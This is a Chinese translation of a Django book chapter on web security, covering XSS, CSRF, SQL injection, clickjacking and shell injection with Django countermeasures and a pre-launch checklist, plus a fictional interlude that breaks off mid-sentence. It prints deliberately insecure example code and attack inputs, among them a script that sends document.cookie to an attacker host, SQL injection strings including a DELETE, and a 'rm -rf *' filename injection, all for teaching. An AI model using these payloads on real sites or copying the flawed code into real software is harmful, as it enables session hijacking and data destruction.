

# 安全

在本章中，我们将讨论以下主题：

*   各种 web 攻击及其对策
*   Django 可以和不能帮助的地方
*   Django 应用程序的安全检查

一些著名的行业报告表明，网站和 web 应用程序仍然是网络攻击的主要目标之一。然而，在 2013 年由一家领先的安全公司测试的所有网站中，约有 86%至少存在一个严重漏洞。

将应用程序发布到野外充满了从机密信息泄露到拒绝服务攻击等多种危险。主流媒体的头条新闻安全漏洞集中于对电子邮件和银行等关键网站应用程序产生不利影响的漏洞，如 Heartbleed、Cloudbleed、Superfish 和 POODLE。事实上，人们常常想知道 WWW 现在指的是万维网还是狂野的西方。

Django 最大的卖点之一是其对安全性的高度关注。在本章中，我们将介绍攻击者使用的顶级技术。正如我们很快将在本章中看到的，Django 可以保护您免受大多数开箱即用的攻击。

我相信，为了保护您的网站免受攻击者的攻击，您需要像攻击者一样思考。让我们熟悉一下常见的攻击。

# 跨站点脚本

**跨站点脚本**（**XSS**）被认为是当今最普遍的 web 应用程序安全漏洞，使攻击者能够在用户查看的网页上执行其恶意脚本（通常为 JavaScript）。通常情况下，服务器会被骗提供其恶意内容和可信内容。

恶意代码如何到达服务器？将外部数据输入网站的常用方法如下：

*   表单字段
*   网址
*   重定向
*   外部脚本，如广告或分析

所有这些都无法完全避免。真正的问题是当外部数据未经验证或消毒就被使用时（如下面的屏幕截图所示）；绝不信任外部数据：


例如，让我们来看看一段易受攻击的代码，以及如何对它执行 XSS 攻击。强烈建议您不要以任何形式使用此代码：

```py
class XSSDemoView(View): 
    def get(self, request): 
        # WARNING: This code is insecure and prone to XSS attacks 
        #          *** Do not use it!!! *** 
        if 'q' in request.GET: 
            return HttpResponse("Searched for: {}".format( 
                    request.GET['q'])) 
        else: 
            return HttpResponse("""<form method="get"> 
        <input type="text" name="q" placeholder="Search" value=""> 
        <button type="submit">Go</button> 
        </form>""") 
```

前面的代码是一个`View`类，当在没有任何`GET`参数的情况下访问时，它显示了一个搜索表单。如果提交了搜索表单，它将显示用户在表单中输入的`Search`字符串。

现在，在带日期的浏览器（例如 IE 8）中打开此视图，并在表单中输入以下搜索词并提交：

```py
<script>alert("pwned")</script> 
```

毫不奇怪，浏览器会显示一个带有不祥信息的警告框-`pwned`。

此攻击在当前浏览器（如最新的 Chrome）中失败，控制台中将显示以下错误消息：拒绝执行 JavaScript 脚本。在请求中找到的脚本的源代码。

如果您想知道一条简单的警报消息会造成什么危害，请记住，任何 JavaScript 代码都可以以相同的方式执行。在最坏的情况下，用户的 cookie 可以通过输入以下搜索词发送到攻击者控制的站点：

```py
<script>var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);</script> 
```

发送 cookie 后，攻击者可能会发起更严重的攻击。

# 为什么你的饼干很值钱？

也许有必要了解为什么 Cookie 会成为几次攻击的目标。简单地说，访问 Cookie 允许攻击者模仿您，甚至控制您的 web 帐户。

要详细了解这一点，您需要了解会话的概念。HTTP 是无状态的。无论是匿名用户还是经过身份验证的用户，Django 都通过管理会话在一定时间内跟踪他们的活动。

会话由客户端的会话 ID（即浏览器）和存储在服务器端的类似字典的对象组成。会话 ID 是一个随机的 32 字符字符串，作为 cookie 存储在浏览器中。每次用户向网站发出请求时，其所有 cookie（包括此会话 ID）都会随请求一起发送。

在服务器端，Django 维护一个会话存储，将该会话 ID 映射到会话数据。默认情况下，Django 将会话数据存储在`django_session`数据库表中。

一旦用户成功登录，会话将注意到身份验证已成功，并将跟踪该用户。因此，cookie 成为后续事务的临时用户身份验证。任何获得此 cookie 的人都可以将此 web 应用程序用作该用户，这称为**会话劫持**。

# Django 如何帮助

您可能已经注意到，我的示例是在 Django 中实现视图的一种极不寻常的方式，原因有两个：它没有使用模板进行呈现，也没有使用表单类。他们都有 XSS 预防措施。

默认情况下，Django 模板自动转义 HTML 特殊字符。因此，如果您在模板中显示了搜索字符串，那么所有标记都是 HTML 编码的。这使得无法注入脚本，除非通过将内容标记为安全的方式显式关闭脚本。

在 Django 中使用表单类来验证和清理输入也是一种非常有效的对策。例如，如果您的应用程序需要一个数字雇员 ID，那么请使用一个`IntegerField`类，而不是更宽松的`CharField`类。

在我们的示例中，我们可以在搜索词字段中使用`RegexValidator`类来限制用户使用字母数字字符，并允许您的搜索模块识别标点符号。尽可能严格地限制用户输入的可接受范围。

# Django 可能帮不上忙的地方

Django 可以通过模板中的自动转义防止 80%的 XSS 攻击。对于其余的场景，您必须注意执行以下任务：

*   引用所有 HTML 属性，例如，将`<a href={{link}}>`替换为`<a href="{{link}}">`
*   使用`custom`方法在 CSS 或 JavaScript 中转义动态数据
*   验证所有 URL，特别是针对 JavaScript 等不安全协议
*   避免客户端 XSS（也称为基于 DOM 的 XSS）

作为反对 XSS 的一般规则，我建议在输入时过滤，在输出时转义。请务必严格验证和消毒（过滤）任何输入的数据并将其转换（转义），然后将其具体发送给用户，如果需要用 HTML 格式支持用户输入（如注释），请考虑使用 MaskDon。

输入时过滤，输出时转义。

# 跨站请求伪造

**跨站点请求伪造**（**CSRF**）是一种欺骗用户在访问另一个站点时在网站上进行不必要的操作的攻击，该网站已通过身份验证。比如说，在论坛中，攻击者可以在页面中放置 IMG 或 IFRAME 标记，向经过身份验证的站点发出精心编制的请求。

例如，可以在注释中嵌入以下伪 0x0 图像：

```py
 
```

如果您已经从另一个选项卡登录到 SuperBook，并且该站点没有 CSRF 对策，那么将发布一条非常尴尬的消息。换句话说，CSRF 允许攻击者通过假设您的身份来执行操作。

# Django 如何帮助

针对 CSRF 的基本保护措施是使用 HTTP`POST`（或`PUT`和`DELETE`，如果支持的话）进行任何有副作用的操作。任何 GET（或 HEAD）请求都必须用于信息检索，例如只读。

Django 通过嵌入令牌来提供针对`POST`、`PUT`或`DELETE`方法的对策。您必须已经熟悉每个 Django 表单模板中提到的``。这将呈现为提交表单时必须存在的随机值。

其工作方式是，攻击者将无法在向您的已验证站点发送请求时猜测令牌。由于令牌是必需的，并且必须与显示表单时显示的值相匹配，因此表单提交失败，攻击被挫败。

# Django 可能帮不上忙的地方

有些人在使用`@csrf_exempt`装饰器的视图中关闭 CSRF 检查，特别是对于 AJAX 表单帖子。除非您仔细考虑了涉及的安全风险，否则不建议这样做。

# SQL 注入

SQL 注入是 web 应用程序第二常见的漏洞，仅次于 XSS。该攻击涉及在数据库上执行的查询中输入恶意 SQL 代码。它可能通过转储数据库内容导致数据被盗，或者通过使用`DROP TABLE`命令破坏数据。

如果您熟悉 SQL，那么您可以理解以下代码；它根据给定的`username`查找电子邮件地址：

```py
name = request.GET['user'] 

sql = "SELECT email FROM users WHERE username = '{}';".format(name) 
```

乍一看，似乎只有与作为`GET`参数提到的`username`相对应的电子邮件地址才会被返回。但是，想象一下，如果
攻击者在表单字段中输入`' OR '1'='1'`，那么 SQL 代码如下：

```py
SELECT email FROM users WHERE username = '' OR '1'='1'; 
```

由于此`WHERE`条款始终为真，因此将返回应用程序所有用户的电子邮件。这可能是机密信息的严重泄漏。

同样，如果攻击者愿意，他们可以执行以下更危险的查询：

```py
SELECT email FROM users WHERE username = ''; DELETE FROM users WHERE '1'='1'; 
```

现在，所有用户条目都将从数据库中删除！

# Django 如何帮助

针对 SQL 注入的对策相当简单。使用 Django ORM，而不是手工制作 SQL 语句。上述示例应按如下方式实施：

```py
User.objects.get(username=name).email 
```

在这里，Django 的数据库驱动程序将自动转义参数。这将确保它们被视为纯粹的数据，因此，它们是无害的。然而，我们很快就会看到，即使是 ORM 也有一些逃逸锁。

# Django 可能帮不上忙的地方

例如，由于 Django ORM 的限制，人们可能需要求助于原始 SQL。例如，QuerySet 的`extra()`方法的`where`子句允许原始 SQL。此 SQL 代码不会针对 SQL 注入进行转义。

如果您使用的是低级 ORMAPI，比如`execute()`方法，那么您可能希望传递绑定参数，而不是自己插入 SQL 字符串。即使如此，强烈建议您检查每个标识符是否已正确转义。

最后，如果您使用的是第三方数据库 API，如 MongoDB，则需要手动检查 SQL 注入。理想情况下，您可能只希望在此类接口中使用经过彻底清理的数据。

# 点击劫持

**点击劫持**是一种误导用户点击浏览器中隐藏的链接或按钮的手段，当用户打算点击其他内容时。

这通常使用一个不可见的 IFRAME 实现，该 IFRAME 包含用户可能单击的虚拟网页（如图所示）上的目标网站：



由于不可见框架中的操作按钮将与虚拟页面中的按钮正好对齐，因此用户的单击将在目标网站上执行操作。

# Django 如何帮助

Django 使用中间件保护您的站点免受点击劫持，中间件可以使用几个装饰器进行微调。默认情况下，此`django.middleware.clickjacking.XFrameOptionsMiddleware`中间件将包含在您的`MIDDLEWARE_CLASSES`设置文件中。它的工作原理是为每个传出的`HttpResponse.`将 X-Frame-Options 标头设置为`SAMEORIGIN`

大多数现代浏览器都能识别标题，这意味着此页面不应位于其他域的框架内。对于某些视图，可以使用装饰器（如`@xframe_options_deny`和`@xframe_options_exempt`）启用和禁用保护。

# 注壳

顾名思义，shell 注入或命令注入允许攻击者将恶意代码注入 bash 等系统 shell。甚至 web 应用程序也使用命令行程序，以方便使用并实现其功能。这些进程通常在 shell 中运行。

例如，如果您希望显示由用户指定名称的文件的所有详细信息，则天真的实现如下所示：

```py
os.system("ls -l {}".format(filename)) 
```

攻击者可以将文件名输入为`manage.py; rm -rf *`并删除目录中的所有
文件。一般情况下，不建议使用`os.system`。子流程模块是一个更安全的选择（或者更好，您可以使用`os.stat()`获取文件的属性）。

由于 shell 将解释命令行参数和环境变量，因此在其中设置恶意值可允许攻击者执行任意系统命令。

# Django 如何帮助

Django 主要依赖 WSGI 进行部署。与 CGI 不同，WSGI 不基于请求设置环境变量，因此框架本身在其默认配置中不易受到 shell 注入的攻击。

但是，如果 Django 应用程序需要运行其他可执行文件，则必须注意以受限的方式运行它，即使用最少的权限。任何源于外部的参数在传递到此类可执行文件之前都必须经过清理。此外，如果不需要 shell 插值，则使用子流程模块中的`call()`以其默认`shell=False`参数运行命令行程序，以安全地处理参数。

# 网络攻击是无止境的

有数百种攻击技术我们没有在这里介绍，随着新攻击的发现，这个列表每天都在增长。让我们自己意识到这一点很重要。

Django 的官方博客（[https://www.djangoproject.com/weblog/](https://www.djangoproject.com/weblog/) 是了解已发现的最新漏洞的好地方。Django 维护人员主动尝试通过发布安全版本来解决这些问题。强烈建议您尽快安装它们，因为它们通常只需要对源代码进行很少或根本不需要更改。

应用程序的安全性只与最薄弱的环节一样强。即使您的 Django 代码可能是完全安全的，但堆栈中有如此多的层和组件，更不用说人为因素，他们也可能被各种社会工程技术（如钓鱼）欺骗。

可以利用某个区域（如操作系统、数据库或 web 服务器）中的漏洞访问系统的其他部分。因此，最好对堆栈进行整体查看，而不是单独查看每个部分。

安全室

史蒂夫一走出董事会会议室，就拿出手机，用拇指向他的团队发送了一封简洁的一行电子邮件：“开始了！”

在过去的 60 分钟里，董事们就发布会的每一个可能细节对他进行了盘问。令史蒂夫恼火的是，O 夫人始终保持着坚忍的沉默。

他走进自己的机舱，再次打开幻灯片打印件。引入检查表后，琐碎的 bug 数量急剧下降。不可能包含在发行版中的基本功能是通过与帮助用户（如 Hexa 和 Aksel）的早期协作制定出来的。

由于苏的出色营销活动，该测试版网站的注册人数已超过 9000 人。史蒂夫在他的职业生涯中从来没有看到过如此多的兴趣推出。就在那时，他注意到桌上的报纸有些奇怪。

15 分钟后，他冲进 21 层的过道。在最末端，有一扇标有 2109 的门。当他打开它时，他看到埃文正在做一个看起来像白色塑料玩具笔记本电脑的东西。“你为什么圈出纵横填字游戏的线索？你可以打电话给我，”史蒂夫问。“我想给你看些东西，”他笑着回答。他抓起笔记本电脑走了出去。他在 2110 房间和消防出口之间停了下来。他跪下，用右手摸索着褪色的墙纸。“这里一定有个门闩，”他咕哝道。

然后，他的手停了下来，转动了一个刚从墙上伸出的把手。墙的一部分旋转着停了下来。它显示了一个房间的入口，房间里亮着红灯。屋内悬挂着一块牌子，上面写着“21B 安全室”。

当他们进入时，无数的屏幕和灯自动打开。墙上的大屏幕上写着“需要认证。插入钥匙。”埃文对此赞不绝口，并开始给他的笔记本电脑接线。

“埃文，我们在这里干什么？”史蒂夫低声问道。埃文停了下来，“哦，对了。我想在考试结束之前我们还有一段时间。”他深吸了一口气。

“还记得 O 女士什么时候让我调查 Sentinel 代码库吗？我做了。我意识到我们获得了经过审查的源代码。我的意思是我可以理解到处删除一些密码，但数千行代码？我一直认为一定有什么事情发生。”

“因此，通过访问 archiver，我提取了一些较旧的备份。不擦除磁性介质的几率惊人地高。无论如何，我可以恢复大部分被删除的代码。你不会相信我所看到的。

哨兵不是一个普通的社交网络项目。它是一个监视程序。可能是人类已知的最大的。

冷战后，一组国家加入形成了一个共享情报信息的网络。这是一个由人类和哨兵组成的网络。哨兵是具有难以置信的计算能力的半自治计算机。一些人认为它们是量子计算机。哨兵被部署在世界各地数千个战略地点，其中大部分是海床一根或几根光缆通过了。它们依靠地热能运行，自供电，几乎坚不可摧。在大多数国家，它们几乎可以接入所有互联网通信。

在九十年代的某个时候，也许是担心公众的监督，哨兵计划被关闭了。这就是它真正有趣的地方。代码历史表明，哨兵的开发是由一个叫 Cerbos 的人继续进行的。代码已经从其监视能力得到了极大的增强，形成了一种大规模的并行 el 超级计算机。一个没有加密算法的数字运算野兽。对它来说是一个巨大的挑战。

还记得那个漏洞吗？我发现很难相信在超级英雄到来之前没有一个进攻动作。所以，我做了一些研究。SHIM 的网络安全被设计成五个同心环。我们这些员工，是在 Sauron 保护的最外层、最没有特权的环中。内环的设计越来越强烈摄影算法。这个房间在四层。

我的猜测是，早在我们知道这起违规事件之前，索伦的所有系统就已经被破坏。系统瘫痪，这些机器人进入校园几乎是步履蹒跚。我只是看了一下日志。这次攻击的目标非常明确——从 IP 地址到登录都是事先知道的。

“内幕人士？”史蒂夫惊恐地问。

是的。然而，哨兵只需要 5 级的帮助。一旦他们获得了 4 级的公钥，他们就开始攻击 4 级系统。这听起来很疯狂，但那是他们的策略。”

“为什么这么疯狂？”

“嗯，世界上大多数在线安全都是基于公钥加密或非对称加密的。它基于两个关键点：

# 方便的安全检查表

安全性不是事后才想到的，而是编写应用程序的方式中不可或缺的一部分。然而，作为人类，有一个清单来提醒你常见的遗漏是很方便的。

以下几点是公开 Django 应用程序之前应执行的最低限度的安全检查：

*   **不要信任来自浏览器、API 或任何外部来源的数据**：这是一条基本规则。确保验证并清理任何外部数据。
*   **版本控制中不要保留**`SECRET_KEY`**：作为最佳实践，从环境中选择`SECRET_KEY`。查看`django-environ`包。**
***   **不要以明文形式存储密码**：而是存储应用程序密码哈希。再加一点盐。*   **不要记录任何敏感数据**：在记录到日志文件之前，过滤掉机密数据，如信用卡详细信息或 API 密钥。*   **任何安全交易或登录都应使用 SSL**：请注意，如果您的网络流量不在 HTTPS 中，则您所在网络中的窃听者可能会监听您的网络流量。理想情况下，您应该对整个站点使用 HTTPS。*   **避免使用重定向到用户提供的 URL**：如果您有类似[的重定向 http://example.com/r?url=http://evil.com](http://example.com/r?url=http://evil.com) ，然后始终检查白名单域。*   **即使对已认证用户也要检查授权**：在执行任何有副作用的更改之前，请检查是否允许登录用户执行。*   **使用尽可能严格的正则表达式**：无论是您的`URLconf`还是
    表单验证器，您都必须避免懒惰和泛型正则表达式。*   **不要将 Python 代码保存在 web 根目录**：如果将其作为纯文本使用，可能会导致源代码意外泄漏。*   **使用 Django 模板而不是手工构建字符串**：模板具有抵御 XSS 攻击的保护。*   **使用 Django ORM 而不是 SQL 命令**：ORM 提供了针对 SQL 注入的保护。*   **将 Django 表单与 POST 输入一起用于任何有副作用的操作**：将表单用于一个简单的投票按钮似乎有些过火，但还是要这样做。*   **应启用并使用 CSRF**：如果使用`@csrf_exempt`装饰器豁免某些视图，请务必小心。*   **确保 Django 和所有软件包都是最新版本**：计划更新。他们可能需要对您的源代码进行一些更改。然而，它们也带来了闪亮的新功能和安全修复。*   **限制用户上传文件的大小和类型：**允许大文件上传会导致拒绝服务攻击。拒绝上载可执行文件或脚本。*   **制定备份和恢复计划****多亏了 Murphy，您可以为不可避免的攻击、灾难或任何其他类型的停机时间制定计划。确保经常进行备份以最大限度地减少数据丢失。****

 ****其中一些可以在[使用 Erik 的小马检查自动进行检查 http://ponycheckup.com/](http://ponycheckup.com/) 。但是，我建议您打印或复制此清单，并将其粘贴在桌面上。

请记住，此列表并非详尽无遗，也不能替代专业人员进行的适当安全审计。

# 总结

在本章中，我们研究了影响网站和 web 应用程序的常见攻击类型。在许多情况下，为了清晰起见，技术的解释被简化，但代价是细节。然而，一旦我们了解了攻击的严重性，我们就可以理解 Django 提供的对策。

在最后一章中，我们将更详细地介绍部署前活动。我们还将了解各种部署策略，例如用于部署 Django 应用程序的基于云的托管。****